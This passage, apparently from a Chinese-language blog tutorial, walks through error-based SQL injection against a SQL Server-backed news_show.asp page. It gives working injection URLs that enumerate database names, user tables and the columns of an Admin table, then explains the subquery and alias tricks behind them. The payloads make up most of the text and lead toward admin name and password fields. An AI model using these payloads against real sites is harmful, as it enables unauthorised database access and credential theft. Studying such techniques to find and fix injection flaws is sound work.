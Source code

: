 接下来的工作是列出服务器上的数据库名：(假设服务器上有16个数据库)

news_show.asp?id=15618 And (Select char(124)%2BCast(Count(1) as varchar(8000))%2Bchar(124) From master..sysdatabases)%3E0

news_show.asp?id=15618 And char(124)+(Select Top 1 cast([name] as varchar(8000)) from(Select Top 1 dbid,name from [master]..[sysdatabases] order by [dbid]) T order by [dbid] desc)&gt;0

news_show.asp?id=15618 And char(124)+(Select Top 1 cast([name] as varchar(8000)) from(Select Top 2 dbid,name from [master]..[sysdatabases] order by [dbid]) T order by [dbid] desc)&gt;0

news_show.asp?id=15618 And (Select Top 1 cast([name] as nvarchar(4000))%2Bchar(124) from(Select Top 16 dbid,name from [master].[dbo].[sysdatabases] order by [dbid]) T order by [dbid] desc)&gt;0

先列出上面UrlEncode的字符

%2B - &amp;apos;+&amp;apos;

%3E - &amp;apos;&gt;&amp;apos;

%20 - &amp;apos; &amp;apos;

%2F - &amp;apos;/&amp;apos;

我只能说这些sql语句构造得是相当的巧妙啊，我开始纳闷了，为啥非要用子查询呢。于是我直接用

Select Top X dbid,name from [master].[dbo].[sysdatabases] order by [dbid]

当X为1,也就是返回第一个的时候，是没有问题的，返回了master,但是X为2的时候就出现错误：

&quot;子查询返回的值多于一个。当子查询跟随在 =、!=、&lt;、&lt;=、&gt;、&gt;= 之后，或子查询用作表达式时，这种情况是不允许的。&quot;

这个时候子查询就起到了关键作用。还有开始不知道T是啥玩意，后来才知道sqlserver子查询必须要起一个别名,T就是那个别名，然后把查询的语句继续和0比较报错 这样就暴出了所有的数据库名。

第一个select count(1)返回数据库数量。

接下来是猜解表名，假设我们当前的数据库是news，那么首先猜解数据库的表的数量：

news_show.asp?id=15618 And (Select char(124)+Cast(Count(1) as varchar(8000))+char(124) From news..sysobjects where xtype=0×55)&gt;0

xtype的为数据表类型，0×55就是U,就是用户表。其他的参见这里有详细的解释。

然后分别列出表名：

news_show.asp?id=15618 And (Select Top 1 cast(name as nvarchar(4000)) from (Select Top 1 id,name from [news]..[sysobjects] Where xtype=0×55 order by id) T order by id desc)&gt;0

修改第二个Top 1为1到表数就可以了。

然后是猜解列名，假设要猜解的表为Admin，首先得到表在sysobjects中存储的唯一id：

news_show.asp?id=15618 And (Select Top 1 cast(id as nvarchar(20)) from [news].[dbo].[sysobjects] where name=&amp;apos;Admin&amp;apos;)&gt;0

猜解表名，id就是上面查询出来Admin表的id。

news_show.asp?id=15618 And (Select Top 1 cast(name as nvarchar(4000))+char(124) from (Select Top 1 colid,name From [news].[dbo].[syscolumns] Where id = 1993058136 Order by colid) T Order by colid desc)&gt;0

假设猜解出来的列名有id,AdminName,AdminPassword,AdminPower,Userid,ct

